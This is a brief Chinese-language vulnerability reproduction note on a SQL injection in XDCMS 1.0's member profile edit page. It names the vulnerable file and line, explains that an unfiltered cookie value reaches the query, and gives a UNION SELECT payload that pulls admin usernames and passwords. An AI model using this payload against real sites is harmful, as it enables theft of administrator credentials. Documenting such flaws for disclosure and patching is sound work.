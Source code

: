 ```yaml
---
title: "XDCMS 1.0 sql注入漏洞（二）"
id: zhfly3273
---
```


# XDCMS 1.0 sql注入漏洞（二）

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞存在于用户资料修改页面，URL：`index.php?m=member&f=edit`

![image](../img/af4c231f10b1fb1d19eeabef1d1f9c55.png)

漏洞文件位于`system/modules/member/index.php`，`line:178`

![image](../img/b0f6e1dc6ed2f76caa0dfdbb675ec073.png)

$userid直接从Cookie中取出，并无任何过滤，导致注入

![image](../img/d04e2fdd482f11cc6e4157ce348418ac.png)

```
select * from table_member where 'userid'=-4 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin 
```